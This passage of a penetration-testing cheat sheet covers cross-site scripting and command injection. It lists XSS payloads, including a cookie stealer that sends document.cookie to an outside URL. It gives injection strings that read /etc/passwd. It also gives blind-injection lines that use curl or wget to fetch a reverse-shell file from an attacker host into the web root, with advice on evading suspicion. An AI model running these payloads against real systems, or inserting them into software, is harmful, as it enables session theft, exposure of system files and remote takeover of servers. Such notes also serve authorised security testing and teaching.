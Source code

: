     ```
    - Some javascript payloads
    ```javascript
    <script>prompt(1)</script>
    <script>print(1)</script>
    <script>alert(document.cookie)</script>
    ```
    - Cookie Stealer
    ```javascript
    <script>var i = new Image; i.src="URL/?"+document.cookie;</script>
    ```
### Command Injection
> Violates separation of data and code. Look for `eval()` Basically the browser is executing code on the system provided by the user
> Command injection is great for shells. Try and use full paths to binaries. Use common ports to evade suspicion
* Identification
    - Look for some function on the page that executes a system command. (ping, curl, tracert,etc)
* Basic Payloads
    ```
    # Basic command separators (; && # , etc)
    ; cat /etc/passwd
    ; ls -la
    ```
* Advanced Payloads
    [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

#### Blind Command Injection(Out of Band)
> You will not be able to see the results of your command. You may just get an "ok" or a true/false
> Will need to try out-of-band techniques, ie calling a website
* Payload operators 
```bash
\n # New Line
`` # Enclosing your command in backticks
$$ # Command Separator 
#  # End of line
```
* Sample Payloads
```
# Same Reverse shell
https://<anywebsite>/ && curl http://<attack host>/rev.php > /var/www/html/rev.php

# Sample Reverse Shell 2 
http://<anywebsite>/ \n wget http://<attack host>/rev.php > /var/www/html/rev.php
```
* Advanced Payloads
    [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)
